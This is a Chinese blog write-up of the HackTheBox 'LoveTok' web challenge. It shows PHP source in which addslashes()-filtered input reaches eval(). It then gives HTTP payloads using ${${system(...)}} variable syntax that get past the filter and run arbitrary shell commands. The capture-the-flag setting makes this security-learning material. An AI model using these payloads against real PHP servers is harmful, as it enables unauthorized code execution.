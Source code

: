 ```yaml
---
title: HackTheBox LoveTok WriteUP
date: 2023-08-22 14:49:44
tags:
- HackTheBox
- Web
- 代码注入
- Bypass
---
```


## 题目

> True love is tough, and even harder to find. Once the sun has set, the lights close and the bell has rung... you find yourself licking your wounds and contemplating human existence. You wish to have somebody important in your life to share the experiences that come with it, the good and the bad. This is why we made LoveTok, the brand new service that accurately predicts in the threshold of milliseconds when love will come knockin' (at your door). Come and check it out, but don't try to cheat love because love cheats back. 💛

![LoveTok](image.png)

![Web](image-1.png)

## 思路

题目有源码下载，理应是从源码中寻找漏洞了。
找来找去，只有`challenge/controllers/TimeController.php`中存在可控参数`$_GET['format']`：

``` php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

跟踪定位到`TimeModel`类，代码如下：

``` php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```

很显然，要绕过`addslashes()`函数，利用`getTime()`中的`eval()`来RCE了。

## 解题

代码在`addslashes()`后没有对传入的参数做其他处理，不好闭合双引号。

但是如果使用动态变量的话，就不需要闭合双引号了。

> 在 PHP 中，{} 用于复杂的变量解析。当字符串中的变量名称与其他字符相邻并可能引起混淆时，可以使用这种语法来明确地表示变量名。而 ${} 是一种特殊的语法，它允许你通过一个字符串来动态地生成变量名。
——ChatGPT

Payload如下：

```
GET /?format=r${${system(ls)}} HTTP/1.1
```

![ls](image-2.png)

但是`addslashes()`会对空格进行处理，我们也并没有在当前目录下找到flag，所以利用HTTP参数传入要执行的命令，是个好主意：

```
GET /?format=r${${system($_GET[aa])}}&aa=ls%20/ HTTP/1.1
```

![ls /](image-3.png)

找到`flag`:

![flag](image-4.png)

## 参考资料

> [PHP复杂变量绕过addslashes()直接拿shell](https://www.jianshu.com/p/7c818ddc5731)